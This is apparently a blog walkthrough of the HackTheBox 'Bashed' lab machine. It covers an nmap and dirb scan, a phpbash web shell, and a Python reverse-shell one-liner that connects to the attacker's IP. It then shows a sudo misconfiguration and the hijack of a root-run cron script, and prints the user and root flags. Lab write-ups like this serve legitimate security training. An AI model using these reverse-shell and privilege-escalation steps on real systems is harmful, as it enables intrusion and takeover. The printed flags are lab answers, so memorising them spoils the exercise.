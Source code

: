 ```yaml
---
title: HackTheBox - Bashed
date: 2020-12-26 23:59:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, phpbash, reverse shell, sudo weak configuration, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/Bashed.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -oN Bashed.txt 10.10.10.68
Warning: 10.10.10.68 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.68
Host is up (0.098s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Apache/2.4.18 (port 80)

![Arrexel's Development Site](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/web-1.png)

![only post](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/web-2.png)

#### `dirb`

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/dirb.png)

#### phpbash

As mentionned on the post we saw earlier &uarr;, [phpbash](https://github.com/Arrexel/phpbash) is running on `/dev`:

![phpbash](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/phpbash.png)

## reverse shell (`www-data`)

```bash
export RHOST="10.10.14.7";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

![reverse-shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/reverse-shell.png)

```bash
$ ls /home
arrexel  scriptmanager
```

We can read `user.txt` by the way:

```bash
$ cat /home/arrexel/user.txt
2c281f318555dbc1b856957c7147bfc1
```

Okay, so we identified two users:

1. `arrexel` 
2. `scriptmanager`

How about us?

```bash
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

The sudo config tells us that we can switch to `scriptmanager` without password.

## User #1 (scriptmanager)

```bash
$ sudo -i -u scriptmanager
sudo -i -u scriptmanager
scriptmanager@bashed:~$ find / -user $(whoami) 2>/dev/null | grep -v "^/proc"   
/scripts
/scripts/test.py
/home/scriptmanager
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.nano
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout 
```

Let's inspect this `/scripts` directory:

```
scriptmanager@bashed:~$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Dec 26 13:38 test.txt
scriptmanager@bashed:/scripts$ cat test.txt; echo ""
testing 123!
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

That's suspicious buddy. **root** own the file `test.txt`.

![suspicious gif](https://i.gifer.com/LQW.gif)

Moreover, the file is updated every minute (cronjob?). This implies that `test.py` is executed every minute also. 

More precisely by **root** because the script creates the file `test.txt` and it's owned by him:

![minute](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/minute.png)

## Root

Let's copy `root.txt` in `/tmp`:

```bash
$ echo "import os; os.system('cp /root/root.txt /tmp/flag'); os.system('chmod 444 /tmp/flag');" > test.py 
```

![flag](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/flag.png)

```bash
scriptmanager@bashed:/scripts$ cat /tmp/flag
cc4f0afe3a1026d402ba10329674a8e2
```